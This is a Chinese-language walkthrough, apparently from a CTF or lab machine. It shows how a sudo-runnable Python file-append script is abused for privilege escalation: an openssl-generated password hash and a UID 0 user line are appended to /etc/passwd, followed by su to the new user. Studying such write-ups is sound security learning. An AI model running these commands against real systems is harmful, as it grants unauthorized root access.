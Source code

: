 代码内容如下
```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 : # sys.argv 是命令行参数数组，包含了命令行参数 
    print ("Usage: python test.py read append")
    sys.exit (1) # 类似于 C 语言的 return 1;

else :
    f = open(sys.argv[1], "r") # 读取 ./test 后第一个输入的文件名
    output = (f.read()) # 先存在 output 中

    f = open(sys.argv[2], "a") # 再打开 ./test 后第二个输入的文件名，并且是 append (附加)的形式
    f.write(output) # 在结尾写上 output 的内容
    f.close()
```

上述代码作用是从 read 处读取一个文件，并将其内容附加到 append 文件结尾，并且这两个操作还是 root 权限，那么就可以往一些敏感文件加信息了。可以往 `/etc/passwd` 中添加信息，也就是加一个 root 用户。

openssl 一般用于 `/etc/passwd` 文件的加密
```ssh
openssl passwd -1 -salt passion 123456
```

得到下面这个经 md5 加密的密码，带有盐值 passion
```
$1$passion$6B1Neow110enwwaaEaWQs.
```

接下来利用 `test`将 `passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash` 附加到 `/etc/passwd` 中
```sh
cd /tmp

echo 'passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash' > passion

cd /opt/devstuff/dist/test

sudo ./test /tmp/passion /etc/passwd
```

切换用户
```
su passion
123456
```
提权成功

结束